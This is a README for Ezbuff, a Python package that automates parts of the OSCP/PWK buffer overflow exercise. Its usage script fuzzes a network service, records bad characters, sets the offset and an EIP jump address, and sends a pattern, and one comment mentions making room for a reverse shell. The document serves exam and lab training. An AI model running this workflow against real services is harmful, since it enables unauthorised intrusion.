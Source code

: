 # Ezbuff
Ezbuff is a Python package created to make the 2020 PWK buffer overflow easier to perform and understand. I created this package because I am aware of the number of people who lose a lot of time during their OSCP exams because of the buffer overflow box and thought this would assist the process. Ezbuff does not perform the buffer overflow for you, it simply automates a lot of the procedures that need to be executed to accomplish a successful buffer overflow attack. Therefore, the manual labor like determining the actual number of bytes to send to crash the vulnerable application, filtering bad characters from registers, and payload generation are all left to the user.

## Installation
```python
pip install ezbuff
```

## Usage
```python
#!/usr/bin/env python3

from ezbuff.src.overflow import Overflow

def main():
	# Instanstantiate `Overflow` object
	test = Overflow("192.168.230.10", 80, max_fuzz_bytes=2000)

	# Change the target IP if running in interactive Python interpreter
	test.targ_ip = "10.10.10.1"

	# Change the target port number if running tests in interactive Python interpreter
	test.targ_port = 443

	# The number of seconds to wait in between the fuzzing process,
	# default = 10
	test.fuzz_interval_seconds = 2

	# Add bad characters to objects list containing bad characters found
	# after sending characters payload.
	test.add_bad_char('\x00', '\x01', '\x02')

	# Set the increment of the fuzzer to be 150 as opposed to
	# the default of 100
	test.fuzz_increment = 150

	# Fuzz the vulnerable application
	test.fuzz()

	# Sets the number of bytes to crash the application.
	# Make sure to accomodate space for reverse shell!!
	test.num_bytes_crash = 1200

	# Set the offset after running the functions to find offset value
	test.offset = 800

	# Set the memory address to jump to after finding valid memory address
	# containing `jump` instructions set in x86 architecture
	test.jump_eip = "\x8f\x35\x4a\x5f"

	# Sending pattern to determine offset
	test.send_pattern()

if __name__ == '__main__':
	main()
```
